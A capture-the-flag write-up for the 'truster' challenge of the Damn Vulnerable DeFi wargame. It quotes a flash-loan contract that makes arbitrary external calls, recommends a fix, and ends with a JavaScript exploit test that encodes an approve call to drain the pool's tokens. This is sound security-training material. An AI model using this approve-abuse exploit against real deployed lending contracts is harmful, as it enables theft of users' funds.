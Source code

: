 # Damn Vulnerable DeFi

Damn Vulnerable DeFi is the wargame to learn offensive security of DeFi smart contracts.

Throughout numerous challenges you will build the skills to become a bug hunter or security auditor in the space.

https://www.damnvulnerabledefi.xyz/

# Introduction

truster is the third challenge in the Damn Vulnerable DeFi series.

Challenge description: 
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.
Currently the pool has 1 million DVT tokens in balance. And you have nothing.
But don't worry, you might be able to take them all from the pool. In a single transaction.

Challenge goal:
Transfer all the DVT in the TrusterLenderPool contract to yourself(attacker).

# Findings 

## Critical Risk
### Arbitrary contract call

**Context:** [`FlashLoanReceiver.sol#L36`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/truster/TrusterLenderPool.sol)

**Description:**
flashLoan function sends an arbitrary transaction to an arbitrary address. Although it checks that contract balance does not decrease after the transaction, it can be used for approving an arbitrary address to transfer DVT tokens on behalf of the contract.

```solidity
function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
    external
    nonReentrant
{
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
    damnValuableToken.transfer(borrower, borrowAmount);
    target.functionCall(data);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```
**Recommendation:**
TrusterLenderPool contract should implement a flash loan receiver interface with an appropriate function and call it from flashLoan function instead of sending arbitrary transactions

```diff
+ interface FlashLoanReceiver 
- target.functionCall(data);
```

# How To Solve The Challenge
encode transaction parameters for approving the attacker address to transfer DVT tokens on behalf of the contract use it as data parameter and use DVT address for target parameter. After that use ERC20.transferFrom and drain all the tokens.

**Context:** [`truster.challenge.js#L30-L34`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/test/truster/truster.challenge.js)

```javascript
it('Exploit', async function () {
    data = "0x095ea7b300000000000000000000000070997970c51812dc3a010c7d01b50e0d17dc79c800000000000000000000000000000000000004ee2d6d415b85acef8100000000";
    this.pool.connect(attacker).flashLoan(0, attacker.address, this.token.address, data);
    this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL);
});
```